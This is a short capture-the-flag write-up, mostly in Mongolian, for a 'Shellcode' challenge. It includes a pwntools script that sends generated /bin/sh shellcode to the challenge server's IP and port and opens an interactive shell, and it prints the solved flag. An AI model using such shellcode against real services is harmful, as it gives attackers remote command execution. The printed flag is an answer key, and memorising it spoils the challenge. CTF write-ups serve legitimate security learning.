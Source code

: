 ## Shellcode

`nc 218.100.84.106 9007`

> **By reamb**

## Writeup

Өмнөх 2 даалгаваруудаас арай өөр бөгөөд өөрсдөө **shell execute** хийх ёстой.
**asm** хэлдээ сайн бол өөрсдөө бичих боломжтой, би тийм ч сайн биш учираас бэлэн байгаа
tool ашиглан хийсэн.

```python
from pwn import *

r = remote('218.100.84.106', 9007)

payload = asm(shellcraft.sh())
r.send(payload)
r.interactive()
```

Дээрх скриптийг ажиллуулахад **command line shell** (Interactive mode буюу`/bin/sh`) рүү орно.
Эндээс `ls`, `cat` коммандуудыг ашиглан тугийг харах боломжтой.

```
Туг: HZ{r3@L_sh3ll_c0de}
```
